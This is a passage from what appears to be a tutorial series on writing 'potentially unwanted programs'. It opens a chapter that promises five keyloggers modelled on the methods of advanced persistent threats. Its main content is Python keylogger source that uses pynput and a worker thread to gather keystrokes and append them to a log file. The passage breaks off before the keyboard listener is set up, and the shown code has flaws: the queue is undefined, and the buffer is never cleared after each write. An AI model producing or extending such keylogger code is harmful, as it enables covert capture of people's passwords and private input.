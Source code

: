 Pip is typically out of date in a new venv. To update pip use:

```bash
pip install --upgrade pip
```

Now that you have set up your virtual environment, you are ready to start developing your own PUPs.

---


# **Keyloggers 1/5: Capturing Keyboard Input with pynput**

Create & activate a new virtual environment and install the necessary library for this PUP with:

```bash
pip install pynput
```

The **pynput** module allows you to control and listen to the keyboard and mouse events in Python. In this section, you will learn how to use this module to create a simple keylogger program. A keylogger can be useful for various purposes, such as logging, monitoring, or testing. In this chapter we will develop 5 different Keyloggers to cover the different methods that APTs use.

To write the keylogger program, you will require the **queue**, **threading**, and **pynput** modules. The queue module provides a way to store and retrieve items in a first-in, first-out (FIFO) order, and also manages thread locking for you. The threading module provides a way to run a function in a separate thread of execution. The pynput module provides a way to listen to the keyboard events and call a function for each key press.

---

## **The code for the keylogger program is shown below:**

```python
import queue
import threading
from pynput import keyboard


def worker():
    key_string = ''
    while True:
        key = q.get()
        try:
            key_string += str(key.char)
        except AttributeError:
            if key == key.space:
                key_string += ' '
            elif key == key.backspace:
                key_string = key_string[:-1]
            elif key == key.shift:
                pass
            elif key == key.enter:
                key_string += '\\n'
            elif key == key.alt:
                pass
            elif key == key.tab:
                pass
            elif key == key.ctrl:
                pass
            else:
                key_string += str(key)

        if len(key_string) >= 20:
            with open('logfile.txt', 'a') as f:
                f.write(key_string)
```